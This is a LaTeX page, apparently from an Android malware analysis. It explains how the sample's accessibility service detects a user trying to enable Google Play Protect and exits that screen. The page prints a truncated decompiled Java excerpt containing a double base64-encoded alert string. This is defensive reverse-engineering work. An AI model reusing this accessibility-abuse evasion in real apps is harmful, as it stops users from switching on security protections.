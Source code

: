 \documentclass[10pt,titlepage]{article}
\begin{document}

\begin{figure}[H]
  \begin{center}
  \includegraphics[width=\linewidth]{accessibility_event_bp.png}
  \end{center}
  \caption{Attaching the debugger and settings a breakpoint to \textit{android.view.accessibility.AccessibilityEvent.recycler()} is showing all Accessibility events received by the malware.}
  \label{fig:accessibility_event_bp}
\end{figure}


The class \textit{naqsl.ebxcb.exu.ServiceAccessibility} implements the function \textit{naqsl.ebxcb.exu.ServiceAccessibility.onAccessibilityEvent} which is beeing triggered on every Accessibility interaction forwarded by the operating system. Here the malware is performing multiple actions depending on what is currently shown to the user.

For example if the user enters the Google Play Protect settings screen in order to enable Google Play Protect the Accessibility service will quit the settings screen bofe the user can do any interaction with it (see Listing \ref{onaccessibilityserviceclosesettings}).

\newpage
\begin{lstlisting}[label=onaccessibilityserviceclosesettings,caption=The \textit{AccessiblityService} is able to detect wether a user is trying to enable Google Play Protect and leaves the screen using the \textit{naqsl.ebxcb.exu.ServiceAccessibility.fddo()} function.,frame=tb]
public void onAccessibilityEvent(android.view.accessibility.AccessibilityEvent r24) {

            [...]
            java.lang.String r3 = "ZkNCQlRFVlNWQ0JCZEhSbGJYQjBJSFJ2SUVWdVlXSnNaU0JRYkdGNUlGQnliM1JsWTNRZ0lYdz0=" // | ALERT Attempt to Enable Play Protect !|
            java.lang.String r3 = naqsl.ebxcb.exu.Cint.m430int(r3)     // Catch:{ Exception -> 0x0651 }
            java.lang.String r3 = naqsl.ebxcb.exu.Cint.m430int(r3)     // Catch:{ Exception -> 0x0651 }
            r11.append(r3)     // Catch:{ Exception -> 0x0651 }
            java.lang.String r3 = r11.toString()     // Catch:{ Exception -> 0x0651 }
            java.lang.String r3 = r9.m439for(r3)     // Catch:{ Exception -> 0x0651 }
            r8.append(r3)     // Catch:{ Exception -> 0x0651 }
            java.lang.String r3 = r8.toString()     // Catch:{ Exception -> 0x0651 }
            r4.fddo(r0, r5, r3)     // Catch:{ Exception -> 0x0651 }
            r23.fddo()     // Catch:{ Exception -> 0x056e }
            [...]
\end{lstlisting}
\end{document}
